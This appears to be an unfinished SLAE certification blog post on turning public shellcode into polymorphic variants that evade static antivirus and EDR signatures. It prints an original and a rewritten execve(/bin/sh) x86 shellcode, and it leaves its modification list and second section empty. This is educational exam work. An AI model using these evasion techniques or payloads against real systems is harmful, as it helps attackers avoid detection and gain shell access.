 ## SLAE Exam Assignment 6 - Creating polymorphic shellcode

## Prologue
The second last assignment of the SLAE certification exam was quite an intriguing one. We were told to take three shellcodes of our choosing from [shell-storm](https://www.shell-storm.org/shellcode/) or [exploit-db](https://www.exploit-db.com/shellcodes) and create Polymorphic versions of those to evade _static signature-based_ AV/EDRs. Needless to say, it was a quite fun and brain-racking challenge.

What's more? We were told that extra brownie-points would be given if the polymorphic shellcodes were smaller than the original.

So without any further ado, let's get down with it!

## What is polymorphic shellcode?
It is impossible to explain polymorphic shellcode if we don't understand what is polymorphism.

Polymorphism comes from the Greek words: _poly_ meaning "many" and _morph_ meaning "forms". In other words it roughly translates to "many forms" of the same thing.

Now let's understand what we mean by polymorphic shellcode with the help of a tiny example.

Each shellcode is crafted for a specific purpose right? Say there's a Reverse TCP shellcode which connects back to an attacker server for execution of arbritary commands. This shellcode was used many times in the past by an attacker along with an exploit to get access to a remote machine and exfiltrate data. Now the AV/EDR vendors have caught up to it and they have written signatures to detect this payload. Say a wannabe pen-tester get their hands on this payload and they too want to use this payload so they quickly decide to test this payload in a live-environment of their own before deploying it but alas! As soon as they fire up the payload, it gets detected by a commercial AV. This can't be any good!

Enter polymorphic shellcode!

So this script-kiddie gives this assembly code that he found to an 1337 hacker and he in return gives him back a modified payload which surprisingly runs as expected without any detections much to this script-kiddie's surprise. So what did this 1337 hacker do?

He basically modified the source that he received to beat _static signature analysis_. In other words, he created a polymorphic shellcode from the original source that has the same functionality but a different signature this time since he addded some new instructions, deleted some old instructions, added some NOP instructions yada yada yada.

Now that we know what is polymorphic shellcode and how it is useful for us, let's get our hands dirty with creating some!

## First polymorphic shellcode - execve(/bin/sh)
[Here](http://shell-storm.org/shellcode/files/shellcode-827.php) is the link to the original shellcode.

Original shellcode:

```nasm
xor    eax, eax
push   eax
push   0x68732f2f
push   0x6e69622f
mov    ebx, esp
push   eax
push   ebx
mov    ecx, esp
mov    al, 0x0b
int    0x80
```

Polymorphic shellcode:

```nasm
xor eax, eax           ; Clearing out EAX register
xor ecx, ecx           ; Clearing out ECX regsiter
push eax               ; push for NULL termination
push dword 0x68732f2f  ; push //sh
push dword 0x6e69622f  ; push /bin
mov ebx, esp           ; store address of TOS - /bin//sh
mov al, 0x0b           ; store Syscall number for execve() = 11 OR 0x0b in AL
int 0x80               ; Execute the system call
```

Length of original shellcode: `23 bytes`

Length of polymorphic shellcode: `21 bytes`

Size Reduction: `9%`

For the first assignment I took a very simple shellcode which executes /bin/sh so I will not go into too much detail on how it works. I just bastardized the execve call and made the following modifications:

1. 
1.
1.

Let's see a demo of the shellcode in action now:

<script id="asciicast-WGxT2keT6AO81KpWMraSVUt4n" src="https://asciinema.org/a/WGxT2keT6AO81KpWMraSVUt4n.js" async></script>

## Second polymorphic shellcode - create dir + chmod 777 + exit





